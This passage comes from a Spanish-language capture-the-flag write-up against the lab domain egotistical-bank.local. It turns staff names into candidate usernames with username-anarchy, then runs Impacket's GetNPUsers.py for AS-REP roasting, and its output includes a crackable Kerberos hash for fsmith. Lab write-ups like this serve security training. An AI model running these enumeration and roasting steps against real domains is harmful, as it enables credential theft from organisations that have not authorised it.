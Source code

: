 Encontramos unos posibles usuarios Validos a nivel web, procedo a montarme un Diccionario para preoceder a realizar un ASREP-Roast Attack 
Para ello utilizaremos la herramienta `GetNPUsers.py` mas a delante.

Procedemos a montarnos un archivo con los Nombres de los Usuarios Encontrados
```bash
# cat diccionario_users                                                                                                                                                                                      1 ⚙
Fergus Smith
Shaun Coins
Bowie Taylor 
Sophie Driver
Steven Kerb
```
Ahora procedemos a hacer uso de la herramienta `Username-Anarchy` para crear distintas variaciones en los nombre de usuario a nivel del diccionario_users.
```bash
# ./username-anarchy --input-file diccionario_users  --select-format first,flast,first.last,firstl
fergus
fergus.smith
ferguss
fsmith
shaun
shaun.coins
shaunc
scoins
bowie
bowie.taylor
bowiet
btaylor
sophie
sophie.driver
sophied
sdriver
steven
steven.kerb
stevenk
skerb
```
Redirigimos el contenido de usuarios nuevos creados a el Archivo `diccionario_users.modifed` 

# ASREPRoasting Attack

Paso 1 - Tener un diccionario Creado con posibles Usuarios para realizar el ataque
Paso 2 - Realizar el Ataque con la siguiente estructura modificando el Dominio y Diccionario a usar
```bash
# GetNPUsers.py egotistical-bank.local/ -no-pass -usersfile ../nmap/diccionario_users.modified      
Impacket v0.9.24.dev1+20210827.162957.5aa97fa7 - Copyright 2021 SecureAuth Corporation

[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
$krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:847325b2e10c33d2ae7b40c82a74ff56$7f6c655697711e9b3e7d75f09a12d53e1b521549fd5704bf
bdeb5fa321b54f2a115dee82fbc6d9dcd6526a31e44b5701a39574897418052dd9062a21db7aebe7ad0f5b63a05ef041053cfa2e03bc0caa058044cd2caf8
89023bcf1b3a0aa0f3eef4c6425f4e37f9e4d2d3fcbde5dfd462cc11bd19a168c81239e9dfafb0530b8c87321497389afcef5dc573142acef0b14a2b0a161
d182e665c760814e73e13a8a4cb8fc0fe61dc4c164a598d0adf5d95f616fe8c46dd5deae459f703e1c42392eefc9912258061dbd0676f054279cbbb1d457a
daf0a64b196f1f47249b3a6de3c43c15b6d734e888a884d4a9b5bcbbf533d6895403bbd692f69b59b743ea83c
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
```
